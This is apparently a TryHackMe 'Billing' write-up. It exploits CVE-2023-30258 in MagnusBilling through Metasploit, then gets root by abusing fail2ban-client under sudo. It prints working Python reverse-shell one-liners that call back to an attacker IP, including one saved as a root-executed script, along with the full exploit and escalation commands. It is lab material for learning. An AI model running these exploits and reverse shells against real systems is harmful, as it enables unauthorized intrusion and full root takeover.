

# TryHackMe: Billing

**Platform:** TryHackMe

**Room:** [Billing](https://tryhackme.com/room/billing)

**Difficulty:** Easy

**Focus:** CVE exploitation via Metasploit, reverse shell upgrading, and fail2ban-client privilege escalation.

**⚠️Disclaimer:** This writeup contains step by step solutions. Flags have been redacted to encourage active learning.

---

## 📑 Table of Contents

- [Setup & Connection](#setup--connection)
- [Reconnaissance](#reconnaissance)
- [Web Enumeration](#web-enumeration)
- [Finding the Exploit](#finding-the-exploit)
- [Metasploit Exploitation](#metasploit-exploitation)
- [Upgrading the Shell](#upgrading-the-shell)
- [Task 1 Answer: user.txt Flag](#task-1-answer-usertxt-flag)
- [Privilege Escalation: fail2ban-client](#privilege-escalation-fail2ban-client)
- [Task 2 Answer: root.txt Flag](#task-2-answer-roottxt-flag)
- [Conclusion](#conclusion)

---

## Setup & Connection

First, connect to the TryHackMe network using OpenVPN, then start the lab machine.

```bash
sudo openvpn <your_configuration_file>.ovpn
```

The room description tells us: "Gain a shell, find the way and escalate your privileges!" It also notes that bruteforcing is out of scope.

---

## Reconnaissance

Let's run an aggressive `nmap` scan across all ports:

```bash
nmap -T4 -A -p- 10.128.160.251
```
```text
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-30 14:52 +0100
Nmap scan report for 10.128.160.251
Host is up (0.047s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 87:cc:6a:ec:00:4c:d9:17:a8:e9:5a:8e:49:bf:d0:2d (ECDSA)
|_  256 26:b6:5f:cf:67:b1:00:61:21:81:66:79:16:50:9a:3c (ED25519)
80/tcp   open  http     Apache httpd 2.4.62 ((Debian))
|_http-title: Did not follow redirect to ./mbilling
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
|_http-server-header: Apache/2.4.62 (Debian)
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
...
```

We find 4 ports open:
- **22** - SSH
- **80** - HTTP (redirects to `/mbilling`)
- **3306** - MySQL
- **5038** - Asterisk Call Manager

The HTTP redirect to `/mbilling` and the Asterisk Call Manager on port 5038 are interesting hints. Let's check the website.

---

## Web Enumeration

Visiting `http://10.128.160.251/` redirects us to `http://10.128.160.251/mbilling/`, which shows a login page:



This is **MagnusBilling**, an open source VoIP billing system for Asterisk. Let's look for known exploits.

---

## Finding the Exploit

First, let's check `searchsploit`:

```bash
searchsploit Magnusbilling
```
```text
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
MagnusSolution magnusbilling 7.3.0 - Command Injection    | multiple/webapps/52170.txt
---------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

There's a command injection vulnerability in MagnusBilling 7.3.0. Let's use Metasploit since it has a module for this.

---

## Metasploit Exploitation

We fire up `msfconsole` and search for the MagnusBilling module:

```bash
msf > search Magnus
```
```text
Matching Modules
================

   #  Full Name                                                   Disclosure Date  Rank       Check  Name
   -  ---------                                                   ---------------  ----       -----  ----
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                                  .                .          .      .
```

This is **CVE-2023-30258**, an unauthenticated RCE in MagnusBilling. Let's use the module:

```bash
msf > use 0
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.128.160.251
RHOSTS => 10.128.160.251
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST YOUR_IP
LHOST => YOUR_IP
```

Before running the exploit, let's verify the target is vulnerable:

```bash
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > check
```
```text
[*] Checking if 10.128.189.109:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.51 seconds.
[+] 10.128.189.109:80 - The target is vulnerable. Successfully tested command injection.
```

The target is vulnerable! The default payload (`php/meterpreter/reverse_tcp`) didn't give us a working shell, so let's switch to a plain PHP reverse shell:

```bash
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set PAYLOAD php/reverse_php
PAYLOAD => php/reverse_php
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit
```
```text
[*] Started reverse TCP handler on 192.168.130.180:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.128.189.109:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 8 seconds.
[*] Elapsed time: 8.16 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/reverse_php
[+] Deleted ffrSXDdCvXOip.php
[*] Command shell session 109 opened (192.168.130.180:4444 -> 10.128.189.109:60572) at 2026-10-30 15:32:35 +0100
```

We have a shell! Let's verify who we are:

```bash
id
```
```text
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
```

We're running as the `asterisk` user.

---

## Upgrading the Shell

The Metasploit shell is pretty limited. Let's upgrade to a proper reverse shell. First, let's check what's available:

```bash
which python3
```
```text
/usr/bin/python3
```

We generate a Python reverse shell payload on [revshells.com](https://www.revshells.com/) and start a new listener on our attacker machine:

```bash
nc -lvnp 9001
```
```text
listening on [any] 9001 ...
```

Then we execute the payload on the target:

```bash
export RHOST="192.168.130.180";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

We catch the shell and upgrade it to a full TTY:

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
asterisk@ip-10-128-189-109:/var/www/html/mbilling/lib/icepay$ 
```

Now we have a proper interactive shell.

---

## Task 1 Answer: user.txt Flag

Let's look around for the user flag:

```bash
asterisk@ip-10-128-189-109:/home$ ls
debian  magnus  ssm-user
```

Three users. Let's check `magnus`:

```bash
asterisk@ip-10-128-189-109:/home$ cd magnus
asterisk@ip-10-128-189-109:/home/magnus$ ls
Desktop    Downloads  Pictures  Templates  user.txt
Documents  Music      Public    Videos
asterisk@ip-10-128-189-109:/home/magnus$ cat user.txt
```
```text
THM{...}
```

**What is user.txt?**
> ✅ **Answer:** `THM{...}`

*(Flag redacted. Walk the exploitation chain yourself to retrieve it!)*

---

## Privilege Escalation: fail2ban-client

Now we need root. Let's check our sudo privileges:

```bash
asterisk@ip-10-128-189-109:~$ sudo -l
```
```text
Matching Defaults entries for asterisk on ip-10-128-189-109:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-128-189-109:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

We can run `fail2ban-client` as root without a password! Looking this up on [GTFOBins](https://gtfobins.org/gtfobins/fail2ban-client/), we find that we can abuse the `actionban` feature to execute arbitrary commands as root.

**The Trick:**

`fail2ban-client` lets you create a custom jail, set an action for it, and then trigger that action by banning an IP. If we set the `actionban` to point to a reverse shell script, banning an IP will execute our script as root.

First, let's create the reverse shell script in `/dev/shm` (a writable tmpfs):

```bash
asterisk@ip-10-128-189-109:/dev/shm$ cat shell.sh
```
```bash
#!/bin/bash
export RHOST="192.168.130.180";export RPORT=9002;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

Make it executable:

```bash
asterisk@ip-10-128-189-109:/dev/shm$ chmod +x shell.sh
```

Start a new listener on our attacker machine (port 9002 this time):

```bash
nc -lvnp 9002
```
```text
listening on [any] 9002 ...
```

Now we abuse `fail2ban-client` to execute our script as root:

```bash
# Create a new jail called "x"
asterisk@ip-10-128-189-109:/dev/shm$ sudo fail2ban-client add x
Added jail x

# Add an action called "x" to the jail
asterisk@ip-10-128-189-109:/dev/shm$ sudo fail2ban-client set x addaction x
x

# Set the actionban to point to our reverse shell script
asterisk@ip-10-128-189-109:/dev/shm$ sudo fail2ban-client set x action x actionban /dev/shm/shell.sh
/dev/shm/shell.sh

# Start the jail
asterisk@ip-10-128-189-109:/dev/shm$ sudo fail2ban-client start x
Jail started

# Trigger the action by banning a fake IP
asterisk@ip-10-128-189-109:/dev/shm$ sudo fail2ban-client set x banip 999.999.999.999
```

We catch a root shell on our listener:

```text
connect to [192.168.130.180] from (UNKNOWN) [10.128.189.109] 44518
# whoami
whoami
root
```

We're root!

---

## Task 2 Answer: root.txt Flag

Now let's grab the root flag:

```bash
# cd /root
# ls
filename  passwordMysql.log  root.txt
# cat root.txt
```
```text
THM{...}
```

**What is root.txt?**
> ✅ **Answer:** `THM{...}`

*(Flag redacted. Walk the privilege escalation chain yourself to retrieve it!)*

---

## Conclusion

The Billing room is a solid chain that covers real world CVE exploitation and a creative privilege escalation:

1. **Nmap enumeration** identifying MagnusBilling on port 80 and Asterisk on port 5038
2. **CVE-2023-30258** unauthenticated RCE in MagnusBilling, exploited via Metasploit
3. **Shell upgrade** from a basic PHP shell to a proper Python TTY reverse shell
4. **sudo misconfiguration** allowing `fail2ban-client` to run as root without a password
5. **fail2ban-client abuse** using the `actionban` feature to execute a reverse shell script as root by creating a custom jail, setting the action, and banning a fake IP

The fail2ban-client trick is a really elegant privilege escalation path that's worth remembering. It's a great example of how legitimate admin tools can be abused when sudo permissions are too permissive.

Big thanks to [**RunasRs**](https://tryhackme.com/p/RunasRs) and TryHackMe  for creating this room.

**Useful Resources:**
- [CVE-2023-30258 - MagnusBilling Unauthenticated RCE](https://www.exploit-db.com/exploits/52170)
- [GTFOBins - fail2ban-client](https://gtfobins.org/gtfobins/fail2ban-client/)
- [revshells.com](https://www.revshells.com/)
